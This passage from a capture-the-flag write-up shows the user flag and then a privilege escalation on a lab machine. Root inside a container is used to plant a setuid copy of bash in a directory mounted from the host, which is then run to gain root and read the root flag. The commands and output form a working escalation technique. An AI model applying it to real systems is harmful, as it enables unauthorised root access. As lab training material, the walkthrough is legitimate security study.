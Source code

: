 ### User flag
```sh
limesvc@forgotten:~$ cat user.txt 
<REDACTED>
```

We can also become root in the container because we have the permission to do it, with a simple `sudo su`.

# Privilege Escalation
We can check the mounted devices on the container.
```sh
root@efaa6f5097ed:/# mount
...
/dev/root on /etc/resolv.conf type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /etc/hostname type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /etc/hosts type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /var/www/html/survey type ext4 (rw,relatime,discard,errors=remount-ro)
...
```

Interesting directory at `/var/www/html/survey`.
If we create a file here we can check on the main machine where is it and if we can see it.

```
limesvc@forgotten:~$ find / -name thing.txt -type f 2>/dev/null
/opt/limesurvey/thing.txt

```

So, it's mounted on /opt/limesurvey.

In the container we copy and modify a version of the `bash` binary, in a way that it can be executed by anyone with root perms.
```sh
root@efaa6f5097ed:/var/www/html/survey# cp /bin/bash .
root@efaa6f5097ed:/var/www/html/survey# chmod u+s bash 
```

And, in the main machine we can execute this because it's linked.
```sh
limesvc@forgotten:/opt/limesurvey$ ./bash -p
bash-5.1# id
uid=2000(limesvc) gid=2000(limesvc) euid=0(root) groups=2000(limesvc)
bash-5.1# cat /root/root.txt 
<REDACTED>
bash-5.1# 
```

---
---
---
